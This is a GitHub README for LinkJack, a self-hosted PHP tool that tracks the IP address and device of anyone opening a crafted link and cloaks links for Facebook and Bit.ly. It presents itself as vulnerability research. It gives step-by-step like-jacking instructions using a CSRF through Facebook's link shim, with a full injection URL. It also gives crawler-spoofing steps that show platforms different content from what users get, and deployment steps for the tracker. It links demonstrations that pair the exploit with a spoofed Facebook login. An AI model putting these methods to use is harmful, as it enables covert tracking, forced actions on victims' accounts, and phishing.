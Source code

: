 # LinkJack

### LinkJack is a customisable URL Honey Trap & Masquerade System that has advanced device recognition features for anybody that loads a constructed link.
[![demo button](https://i.imgur.com/3Ugm8J7.jpg)](https://linkstats.ml) 
![screen](https://i.imgur.com/CetGtaL.jpg)

## History
> Link Jack or LinkJack ( LJ ) is an ongoing research project into the dangers of redirection scripts in relation to security on Facebook. it initially started in late 2016 as i accidentally found the possibility attempting to make my own URL Shortening service, it was quickly apparent that Facebook users could be honey trapped for IP Address harvesting, further research uncovered a vast amount of vulnerability in the Facebook Link Shim system that allowed SSRF, CSRF, Post Spoofing, Click Hijacking among others... some have been given CVE's and other's have not.
The reasons as to why some have not been accepted as Vulnerability is almost hilarious "We can't fix it, therefore it's not eligible".    
    
Exploit Dissection Video - https://m.youtube.com/watch?v=9XD9ODDT2hg&t=1s      
Performing Exploit on GitHub ReadMe File - https://youtu.be/dLAcBkTS14Q      
Performing Exploit on Facebook - https://m.youtube.com/watch?v=XbDv4PsnBnk&t=11s    
Using Exploit with Spoof Facebook Log-in -  https://m.youtube.com/watch?v=sxDUVnRnYk8    
Facebook Responsibility Information -   https://youtu.be/nQ2iXNyFFEM    

    

## Updates on report     
> Facebook Like Jacking Successfully performed 7 November 2020 using a Cross-Site Request Forgery to the sister website mbasic.facebook   
* Load Facebook in mbasic.facebook.com    
* Go to the desired Page to Like Jack    
* Hold ( Long Press ) on Like button and Select Copy URL    
* Paste the Like URL into a new text document
* Open the Facebook News Feed and find a Link    
* Extract the Facebook Linkshim URL from the Link    
* Format your Like URL in urlEncoded format     
* Inject Like URL into Linkshim URL   
 
Eg,   
Like URL    
`https://mbasic.facebook.com/a/profile.php?fan&id=116472816929607&origin=page_profile&pageSuggestionsOnLiking=1&gfid=AQCxHP9_rBs9hWEIUBA&refid=17&ref=bookmarks`   
        
Link URL    
`https://lm.facebook.com/l.php?u=[url]&h=AT0Q...`      
      
Injection URL     
`https://lm.facebook.com/l.php?u=https%3A%2F%2Fmbasic.facebook.com%2Fa%2Fprofile.php%3Ffan%26id%3D116472816929607%26origin%3Dpage_profile%26pageSuggestionsOnLiking%3D1%26gfid%3DAQCxHP9_rBs9hWEIxwk%26refid%3D0&h=AT0QwiCjR8pUK_Lgr-w9hZWHMRUXNq-W9Wm5Vp5Ssq8x7C1rHJ4Jbfgm0ssXmqzU5NJH85zRkT886DKRQ_iWyRz0NQIZhobUMRUzlHyd582pZvKSAJMmrEOuD-6Y4vk0C73HAZZc2v0VcylgwtxAXni2DmJan1T99ObuVmQB5iIqnRfe5n5zCKWtJpD91hJV60wsN1Hn6LRxkZ5zx4uIatCmuFSIiosOV38E0spJRQdUZ2neUsLJc6vgv2p4mi2dfYIsJQKEANddyGjF3cP8oPHIbsjQz5LiU1NozYOoRgaUHe0k-0S8oq2D217f-Cy3CUkRI5AOPQxDR-EVFrs-YS6r2nGb8Ez_8rfsiFPr0F3DEvqRwMLGqfRcqxYqgHtJn36dzXUZyVFo5R-d7qc7fCN2sjdNx9n7SLLetrMA1P4Ru9Fua-XwTE4cAbT-PS6fEYkD45unAX3Ydu0uufq7mZq1t_BBfiUbncMr9TdvQ0PAIeWV6IapoaMH0x9BRThMyNUENthJQQnBpMUfvz_j4wu7VItZGBNL2-C1g9wg8nevzsAMIvCO_xm3XOIqwR-_pdw1SN5pnstDz-EESA`
     
  
Like Jacking Successful within H parameters Time Allowance, each H param is unique to the time of Click and therefore will allow about 1 hour with that same H id.
   
GFID  Facebook GFID is also time limited to the same cookie expirations.
   

## Facebook Post Spoofing   
* Set Target as ( facebookexternalhit )   
* Choose the URL Facebook will see - Target URL    
* Add Real URL - Default URL    

## Bit.ly Post Spoofing   
* Set Target as ( bitlybot )   
* Choose the URL Bitly will see - Target URL    
* Add Real URL - Default URL    

## Combo Spoofing   
* Set Target as ( bitlybot, facebookexternalhit )   
* Choose the URL Both websites will see - Target URL    
* Add Real URL - Default URL    


## Technology
* PHP 7
* BootStrap 4
* jQuery

## Installation
* The project is a self installing website that uses the config.php file included by all other php files to create a universal installation configuration script.
* Edit the **config.php** file to suite your installation environment.
* Get an API Key from [UserStack](https://userstack.com) and add it into the **config.php** for device analysis on the user agent - or use the provided test key.
* Place the files onto your host and open the **home.php** file using a web browsers - this will initialize the **config.php** file 
* After the **config.php** has created necessary files and folders for the environment, you're all good to start using.


### Heroku Deployment
#### Heroku runs under CGI environment and some things have been changed to work with Heroku, the Time will now be displayed in (Seconds Ago) and the IP address information is still not loading from the API.   
[![Deploy](https://www.herokucdn.com/deploy/button.svg)](https://heroku.com/deploy)        
Create a FREE account first if you do not yet have one:  
https://signup.heroku.com/    
### Heroku Demo Deployment     
#### Full featured heroku deployment, has issues loading additional ip address information
https://linkstat.herokuapp.com/

## Development Notes
### Security Improvement
I built and distributed the entire project by myself in about 3 days, so please keep that in mind - it needs a thorough run through for security with proper sanitization of input and descriptions.

## Usage
### Create A Link
* Open the **Add Link** Page
* Enter a device target or IP address to match against the link viewer's
* Press **Get Link** 
* Write Down Your Private Key - important !
* Test the Link, it will automatically copy to clipboard when you press **Get Link**

### Watch A Link
* Open the **Link Stats** page
* Enter Your Link that was Created
* Enter Your Private Key ( Link PIN )
* Press **Get Stats**

### Remove A Link
* Open the **Remove Link** page
* Enter Your Link that was Created
* Enter Your Private Key ( Link PIN )
* Press **Remove Link**


## Page Screenshots
### Get Link
![screen](https://i.imgur.com/dtBXBzR.jpg)

### Link Stats Key Check
![screen](https://i.imgur.com/Sh5m5he.jpg)

### Link Stats 
![screen](https://i.imgur.com/cusF2xO.jpg)


### Remove Link 
![screen](https://i.imgur.com/UGtYzru.jpg)


### Origin Report Graphic 
![screen](https://github.com/WokeWorld/LinkJack/blob/master/IMG_20200310_084516.jpg)


### Response on Report Danger
![screen](https://github.com/WokeWorld/LinkJack/blob/master/Screenshot_2020-06-15-13-02-56.jpg)


### Response on Report Danger 2020    
> Apparently Facebook only accept SSRF and CSRF vulnerabilities if they can Log Out the person or Change The Password.
![screen](https://github.com/WokeWorld/LinkJack/blob/master/IMG_20201111_105120.jpg)


## Design & Theme 
MIT Licensed Design
> See [Mobirise](https://mobirise.com) for more information on the software used to build LinkJack's html frontend.
* I've added the project file so you can keep working on the same theme.


